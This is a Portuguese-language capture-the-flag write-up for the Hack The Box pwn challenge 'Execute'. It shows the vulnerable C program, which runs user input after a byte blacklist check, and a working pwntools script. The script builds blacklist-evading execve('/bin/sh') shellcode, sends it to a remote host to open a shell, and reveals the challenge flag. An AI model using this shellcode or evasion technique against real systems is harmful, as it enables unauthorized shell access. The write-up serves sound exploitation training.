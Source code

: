 # WriteUp: Execute

## Descrição do Desafio:
**Autor**: [AlexZander](https://app.hackthebox.com/users/90864) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/Execute) \
**Categoria**: Pwn \
**Dificuldade**: Fácil \
**Data**: 2024 \
**Descrição**:
> Can you feed the hungry code?

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Este desafio fornece o código-fonte dele, dessa forma o primeiro passo é analisar ele para tentar identificar possíveis vulnerabilidades.

{% code title="execute.c" overflow="wrap" lineNumbers="true" %}

```c
// gcc execute.c -z execstack -o execute

#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void setup() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(0x7f);
}

int check(char *a, char *b, int size, int op) {
    for(int i = 0; i < op; i++) {
        for(int j = 0; j < size-1; j++) {
            if(a[i] == b[j])
                return 0;
        }
    }
    
    return 1337;
}

int main(){
    char buf[62];
    char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");
    
    int size = read(0, buf, 60);
	   
    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}

```

{% endcode %}

Analisando o código, podemos perceber que ele verifica se nosso *input* contém algum dos *bytes* da `blacklist`, e se nenhum desses *bytes* estiver no *input*, o código executa o que estiver no `buf`.

Dessa forma, a vulnerabilidade se torna bem óbvia, devemos inserir *shellcodes* no *input* para eles imprimirem o conteúdo do arquivo `flag.txt` ou deem acesso ao terminal, porém nenhum dos *bytes* da `blacklist` deve estar no *input*.

### 2. Exploit
A abordagem adotada foi criar um *shellcode* que chama a *syscall* `execve` passando como parâmetro a *string* `/bin/sh`. Normalmente, o assembly seria:

{% code title="normal_assembly" overflow="wrap" lineNumbers="true" %}

```asm

mov rdi, "/bin/sh" ; Na verdade seria o endereço da string.
mov rdx, 0
mov rsi, 0
mov rax, 0x3b
syscall

```

{% endcode %}

Porém muitos dos *bytes* presentes nessa sequência de código estão na `blacklist`. Então, a solução acabou sendo mais na tentativa e erro, testando sequências que não contenham *bytes* da lista negra.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./execute")
context.arch = "x86-64"

p = remote("ip", porta)
#p = process()

shellcode = asm('''
                mov eax, 0x3c
                dec al
                mov rdx, 0
                mov rsi, 0
                mov rdi, 0x0065722f6d65602f
                mov r10, 0x0003010001040200
                add rdi, r10
                push rdi
                mov rdi, rsp
                syscall
''')

p.sendline(shellcode)
p.interactive()
```

{% endcode %}

Com isso é possível obter acesso ao terminal, e digitando o comando `cat flag.txt` a **flag** aparece.

### Flag
`HTB{wr1t1ng_sh3llc0d3_1s_s0_c00l}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)